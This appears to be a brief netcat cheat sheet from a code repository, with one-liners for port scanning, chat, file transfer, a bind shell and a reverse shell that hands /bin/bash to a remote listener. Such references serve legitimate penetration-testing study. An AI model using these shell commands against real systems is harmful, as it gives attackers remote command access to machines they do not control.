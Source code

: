 ### Find open ports
```
nc -nv 127.0.0.1 21
nc -nvvz 127.0.0.1 21-25
nc -nvvz -u 127.0.0.1 160-162
for port in {21..25};do timeout 1 nc -nv 127.0.0.1 $port; done
```

### Chat using nc
```
nc -nlvp 4444 # listener
nc -nv 127.0.0.1 4444 # connector
```

### Transferring files
```
nc -nlvp 4444 > wget # listener
nc -nv 192.168.1.4 4444 < /usr/bin/wget # connector
```

### Bind shell
```
nc -nlvp 4444 -e /bin/bash # listener on target
nc -nv 127.0.0.1 4444 # connector
```

### Reverse shell
```
nc -nlvp 4444 # listener on attacker
nc -nv 127.0.0.1 4444 -e /bin/bash # connector
```
